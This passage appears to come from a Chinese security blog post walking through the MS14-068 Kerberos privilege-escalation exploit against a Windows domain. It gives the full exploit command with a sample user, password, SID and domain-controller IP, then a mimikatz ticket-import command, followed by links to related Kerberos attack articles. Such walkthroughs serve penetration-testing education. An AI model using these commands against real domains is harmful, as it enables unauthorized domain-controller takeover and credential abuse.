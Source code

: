 
```
MS14-068.exe -u jack@0day.org -p admin!@#45 -s S-1-5-21-1812960810-2335050734-3517558805-1133 -d 192.168.3.142  #MS14-068.exe -u 域用户@0day.org -p 域用户jack密码 -s 域用户jack的SID -d 域控ip
```

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou8WZ2ZXgKbkfK6DEjegCZiaIM28RP5fWE0XY1mxAibenh8DIHI4CrgedLvdlDWSyhmX8BNhGYPqm5DA/640?wx_fmt=png)

  
可以看到生成了 TGT_jack@0day.org.ccache  
**2.mimikatz 导入票据**  
  

```
kerberos::ptc 票据路径
```

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou8WZ2ZXgKbkfK6DEjegCZiaIgzqNtAXgoLWibuWIXkQCjMjAFOicfZXv5woQfoR48ew2ohKdOvc6Ll9Q/640?wx_fmt=png)

  
**3. 访问域控**  

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou8WZ2ZXgKbkfK6DEjegCZiaIM28RP5fWE0XY1mxAibenh8DIHI4CrgedLvdlDWSyhmX8BNhGYPqm5DA/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/ndicuTO22p6ibN1yF91ZicoggaJJZX3vQ77Vhx81O5GRyfuQoBRjpaUyLOErsSo8PwNYlT1XzZ6fbwQuXBRKf4j3Q/640?wx_fmt=png)

**推荐阅读：**

**[内网渗透 | Kerberos 协议与 Kerberos 认证原理](http://mp.weixin.qq.com/s?__biz=MzI5MDU1NDk2MA==&mid=2247497760&idx=1&sn=4c0f57ba9203cc115a85cd0c011fdc43&chksm=ec1cad1fdb6b2409ec3ef25008ad6834a7220997a914308a478ed9d682c84c7b370e423a878c&scene=21#wechat_redirect)  
**

**[内网渗透 | Kerberos 协议相关安全问题分析与利用](http://mp.weixin.qq.com/s?__biz=MzI5MDU1NDk2MA==&mid=2247497830&idx=1&sn=9dfacfb1a9513c860a3aeb268770097e&chksm=ec1cad59db6b244f05d44dc179ee9969acea9b0371c653992d9a65a80ae235cfa812186316db&scene=21#wechat_redirect)  
**

[**内网渗透 | SPN 与 Kerberoast 攻击讲解**](http://mp.weixin.qq.com/s?__biz=MzI5MDU1NDk2MA==&mid=2247497831&idx=1&sn=cdc3aef06751705f8156f35115f6892d&chksm=ec1cad58db6b244e5174b026c9699cf70066ac919ee2213c69742e74bd990be224feee996c03&scene=21#wechat_redirect)  

本月报名可以参加抽奖送 Kali NetHunter 手机的优惠活动  

[![](https://mmbiz.qpic.cn/mmbiz_jpg/Uq8Qfeuvouibfico2qhUHkxIvX2u13s7zzLMaFdWAhC1MTl3xzjjPth3bLibSZtzN9KGsEWibPgYw55Lkm5VuKthibQ/640?wx_fmt=jpeg)](http://mp.weixin.qq.com/s?__biz=MzI5MDU1NDk2MA==&mid=2247497897&idx=1&sn=5801b91d451b4c253eb3e2c5ff220673&chksm=ec1cad96db6b2480ce0be49a377819558c06b29603b812512b7cb52ca0c123bc444764f11502&scene=21#wechat_redirect)

**点赞，转发，在看**

原创投稿作者：11ccaab

未经授权，禁止转载

![](https://mmbiz.qpic.cn/mmbiz_gif/Uq8QfeuvouibQiaEkicNSzLStibHWxDSDpKeBqxDe6QMdr7M5ld84NFX0Q5HoNEedaMZeibI6cKE55jiaLMf9APuY0pA/640?wx_fmt=gif)